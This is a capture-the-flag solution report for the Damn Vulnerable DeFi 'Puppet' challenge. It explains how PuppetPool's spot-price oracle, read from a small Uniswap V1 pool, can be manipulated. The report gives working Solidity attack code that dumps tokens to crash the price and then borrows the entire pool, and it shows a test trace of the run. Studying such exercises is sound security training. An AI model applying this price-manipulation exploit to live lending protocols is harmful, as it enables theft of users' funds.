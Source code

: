 # Damn Vulnerable DeFi - Puppet - Solution Report

## Problem Analysis

### Contract Summary

The challenge involves three main contracts:

1. `PuppetPool`: A lending pool that allows users to borrow Damn Valuable Tokens (DVTs) by depositing twice the borrow amount in ETH as collateral. Key functions include:

   - `borrow(uint256 amount, address recipient)`: Allows borrowing tokens after depositing the required collateral.
   - `calculateDepositRequired(uint256 amount)`: Calculates the required ETH deposit for a given DVT amount.
   - `_computeOraclePrice()`: Computes the price of DVT in ETH based on the Uniswap V1 exchange balance.

2. `DamnValuableToken`: An ERC20 token contract representing the DVT.

3. `IUniswapV1Exchange`: An interface representing the Uniswap V1 exchange, used for token-ETH swaps and liquidity operations.

### Initial Setup

- Uniswap V1 Exchange: 10 ETH and 10 DVT in liquidity
- Lending Pool: 100,000 DVT in liquidity
- Player: 25 ETH and 1,000 DVT

### Success Criteria

To solve the challenge, the player must:

1. Execute a single transaction
2. Drain all tokens (100,000 DVT) from the lending pool
3. Deposit the drained tokens into the designated recovery account

The challenge is considered solved when:

- The player has executed only one transaction
- The lending pool's DVT balance is zero
- The recovery account's DVT balance is at least 100,000 DVT (the initial pool balance)

## Vulnerability

The main vulnerability in this challenge lies in the `PuppetPool` contract's pricing mechanism, specifically in the `_computeOraclePrice()` function:

```solidity
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

This function has two critical issues:

1. **Centralized Oracle**: The function relies solely on the Uniswap V1 exchange's balance to determine the price of DVT. This makes it vulnerable to manipulation, as a single liquidity pool with relatively low liquidity is used as the price oracle.

2. **Spot Price Vulnerability**: The price is calculated based on the current spot price in the Uniswap pool, without any time-weighted average or other mechanism to protect against short-term price fluctuations or manipulations.

These vulnerabilities allow an attacker to manipulate the price of DVT in the Uniswap exchange, which directly affects the collateral requirements in the `PuppetPool`. By artificially inflating the ETH/DVT price, an attacker can drastically reduce the amount of ETH collateral required to borrow DVT from the pool.

The `calculateDepositRequired` function uses this vulnerable price oracle:

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}
```

This means that if an attacker can manipulate the price to be very low, they can borrow a large amount of DVT with minimal ETH collateral, potentially draining the entire pool.

## Attack Method

The attack exploits the vulnerable price oracle in the `PuppetPool` contract by manipulating the Uniswap V1 exchange. The attack procedure is as follows:

1. **Manipulate Uniswap Price**:

   - The attacker sells a large amount of DVT to the Uniswap exchange.
   - This drastically increases the ETH balance and decreases the DVT balance in the Uniswap pool.
   - As a result, the price of DVT in terms of ETH (as calculated by `_computeOraclePrice()`) becomes extremely low.

2. **Calculate Reduced Collateral Requirement**:

   - Due to the manipulated price, the `calculateDepositRequired()` function now returns a much lower ETH amount required as collateral for borrowing DVT.

3. **Borrow DVT from PuppetPool**:

   - The attacker can now borrow all 100,000 DVT from the `PuppetPool` by providing only a small amount of ETH as collateral.
   - This is possible because the collateral requirement has been artificially reduced due to the price manipulation.

4. **Transfer Borrowed DVT**:

   - The attacker transfers all the borrowed DVT to the designated recovery address.

5. **Profit**:
   - The attacker now controls all 100,000 DVT from the pool, having spent only a fraction of their initial ETH balance.

This attack takes advantage of the fact that the `PuppetPool` uses the Uniswap exchange as a price oracle without any safeguards against manipulation. By executing a large trade on Uniswap, the attacker can temporarily skew the price, allowing them to drain the entire lending pool with minimal collateral.

The key to this attack is having enough initial DVT to significantly impact the Uniswap pool's balance. The attacker starts with 1,000 DVT, which is sufficient to manipulate the price given the pool's initial liquidity of only 10 ETH and 10 DVT.

## Proof of Concept (PoC)

### Core Implementation

To execute the attack while meeting the single transaction requirement, we use a dedicated `PuppetAttacker` contract. This contract is deployed and called in a single transaction from the player's account.

The attack is implemented in the `PuppetAttacker` contract and executed through the `test_puppet` function in the `PuppetChallenge` contract:

```solidity
function test_puppet() public checkSolvedByPlayer {
    // Deploy the attacker contract
    PuppetAttacker attacker = new PuppetAttacker(uniswapV1Exchange, lendingPool, token, recovery);

    // Calculate the amount of DVT to sell (leave 1 DVT for rounding error)
    uint256 dvtToSell = token.balanceOf(player) - 1;

    // Approve the attack contract to spend the calculated amount of player's DVT
    token.approve(address(attacker), dvtToSell);

    // Execute the attack
    attacker.attack{value: player.balance}(dvtToSell);
}
```

The `PuppetAttacker` contract implements the attack logic following these steps:

1. **Manipulate Uniswap Price**:

```solidity
// Transfer DVT from player to this contract
token.transferFrom(msg.sender, address(this), dvtToSell);

// Approve Uniswap to spend our DVT
token.approve(address(uniswapExchange), dvtToSell);

// Perform the swap to dump DVT price
uniswapExchange.tokenToEthSwapInput(
    dvtToSell,
    1 wei, // Accept any amount of ETH, to avoid reverting with large price impact
    block.timestamp + 300 // 5 minutes deadline
);
```

2. **Borrow DVT from PuppetPool**:

```solidity
// Borrow all DVT from the lending pool
uint256 poolBalance = token.balanceOf(address(lendingPool));
lendingPool.borrow{value: address(this).balance}(poolBalance, address(this));
```

3. **Transfer Borrowed DVT**:

```solidity
// Transfer all DVT to recovery address
token.transfer(recovery, token.balanceOf(address(this)));
```

4. **Return Excess ETH**:

```solidity
// Transfer any remaining ETH back to player
payable(msg.sender).transfer(address(this).balance);
```

This implementation executes the entire attack in a single transaction, manipulating the Uniswap price, borrowing all DVT from the lending pool, and transferring the borrowed tokens to the recovery address.

### Running Result

```
    ├─ [0] VM::getNonce(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] VM::assertEq(1, 1, "Player executed more than one tx") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(PuppetPool: [0x9c52B2C4A89E2BE37972d18dA937cbAd8AA8bd50]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 100000000000000000000000 [1e23]
    ├─ [0] VM::assertGe(100000000000000000000000 [1e23], 100000000000000000000000 [1e23], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
